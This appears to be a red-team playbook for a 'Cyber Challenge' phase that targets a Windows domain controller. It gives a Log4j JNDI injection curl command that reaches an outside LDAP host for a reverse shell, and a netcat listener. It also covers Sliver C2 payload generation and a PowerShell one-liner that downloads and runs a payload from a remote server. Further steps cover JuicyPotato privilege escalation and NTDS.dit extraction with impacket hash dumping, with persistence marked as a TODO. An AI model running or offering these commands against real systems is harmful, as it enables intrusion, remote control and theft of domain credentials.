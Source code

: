 # Cyber Challenge

# Phase 4 — DC-01

### Reconnaissance

Nmap/fping scans identify a web server running at `http://208.11.20.100:8080/`. Through <traffic sniffing and/or fuzzing?>, an API with a User-Agent header vulnerable to Log4j RCE was discovered: `http://208.11.20.100:8080.msn_apps/api/vulnerable/user`

**POC**: `curl -A '${jndi:ldap://94.249.194.1:1387/ReverseShell}' http://208.11.20.100:8080/msn_apps/api/vulnerable/user`

### Initial Access - Log4j

1. Start a netcat listener on port 9001 `nc -nvlp 9001`
2. In another terminal window `cd /home/user/Playbook` and run `./log4j.sh`
3. You should get a shell to the AOC C2 Domain Controller as `nt authority\local service`

### Delivering Sliver C2 payload

1. Create the Sliver C2 payload if it necessary. Example:

```bash
generate --http 94.249.192.5:8080 --save /home/user/Playbook/update.exe --os windows
```

1. From `/home/user/Playbook` start a python http server on port 8000
    1. Alternatively payload can be hosted an downloaded from another server
2. Upload C2 payload to victim machine `C:\Windows\ServiceProfiles\LocalService\AppData\Roaming` and execute

One-Liner:

```bash
powershell -c "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri 'http://94.249.192.1:8000/update.exe' -OutFile '%appdata%\update.exe'; %appdata%\update.exe"
```

![Untitled](Screenshots/Untitled.png)

### Privilege Escalation

1. After about a minute, a new Sliver session should open.

```bash
sessions
use [session ID]
```

1. Basic enumeration with Sliver commands `whoami` and `getprivs` reveals the current user as a service account with `SeImpersonatePrivilege`
2. Within the Sliver interface, upload JuicyPotato.exe exploit and execute. Change the local listening port if necessary. It can be any port not already in use on the victim machine.

```bash
upload /home/user/JuicyPotato.exe 'C:/Windows/ServiceProfiles/LocalService/AppData/Roaming/install.exe'

shell

C:/Windows/ServiceProfiles/LocalService/AppData/Roaming/install.exe -l 3388 -t * -p C:/Windows/ServiceProfiles/LocalService/AppData/Roaming/update.exe
```

1. If the command completes properly, exit the interactive shell session to return to the Sliver interface. After a short moment, a new session will start as `NT AUTHORITY\SYSTEM` user.

```bash
exit / [Ctrl + D]
```

### Dump Domain Hashes

1. Enter the new privileged Sliver session and enter an interactive shell session. Use vssadmin to create a shadow copy of the C drive. Then extract NTDS.dit and the SYSTEM registry hive. 
    1. Pay attention to the output from the `vssadmin` command to determine the name of the shadow volume: e.g. `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy#` where `#` is the number of the shadow volume

```bash
use [session ID]
shell
vssadmin create shadow /for=C:
mkdir C:\backups
reg save SYSTEM C:\backups\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\ntds\ntds.dir C:\backups\ntds.dit

# Return to Sliver
exit / [Ctrl + D]

download C:\backups\SYSTEM
download C:\backups\ntds.dit
# Cleanup? -- Delete files
```

1. In another terminal window, move to the directory with the extracted files and dump hashes with `impacket`

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

![Untitled](Screenshots/Untitled%201.png)

### TODO #1: Persistence - Evil Domain Admin

### TODO #2: Persistence - Registry Keys/AutoRuns

[Sliver - Meterpreter](https://www.notion.so/Sliver-Meterpreter-0139dc3552684ac09c71769624814962?pvs=21)